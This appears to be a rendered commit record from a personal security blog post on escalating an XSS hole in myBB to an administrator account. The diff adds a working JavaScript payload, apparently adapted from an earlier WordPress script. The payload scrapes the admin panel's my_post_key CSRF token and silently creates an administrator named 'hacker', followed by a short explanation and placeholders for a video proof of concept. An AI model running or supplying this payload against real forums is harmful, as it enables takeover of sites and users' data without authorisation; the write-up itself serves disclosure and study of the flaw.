

Before and after one commit to ch4n3l/ch4n3l.github.io, a Jekyll site: the page built from _posts/2017/2019-05-29-mybb-add-admin-via-xss.md, in a window 1280 px wide. Shown: the whole page at 91% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
more notes

```diff
--- a/_posts/2017/2019-05-29-mybb-add-admin-via-xss.md
+++ b/_posts/2017/2019-05-29-mybb-add-admin-via-xss.md
@@ -28,10 +28,37 @@
 
 I have modified hakluke's original Wordpress script to work with myBB.
 
+Script:
+~~~
+/*
+mybb - adds administrator with username hacker and password hacker12345
+tested on latest version of mybb v1.8.20
+original script by hakluke modified by mqt
+*/
+var mybb_root = "" // don't add a trailing slash
+var req = new XMLHttpRequest();
+var url = mybb_root + "/admin/index.php?module=user-users&action=add";
+var regex = /my_post_key" value="([^"]*?)"/g;
+req.open("GET", url, false);
+req.send();
+var nonce = regex.exec(req.responseText);
+var nonce = nonce[1];
+var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
+req.open("POST", url, true);
+req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
+req.send(params);
+~~~
+
+In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called `my_post_key`. The following script sends a request to the myBB Admin Panel (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate), retrieves the source and parses it looking for `my_post_key`. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.
+
 
 Here is a video proof of concept demonstrating it in action:
 [video poc]
 
+# iii. Conclusion
+
+[note about xss]
+
 
 As always, thank you for reading,
 - mqt
```
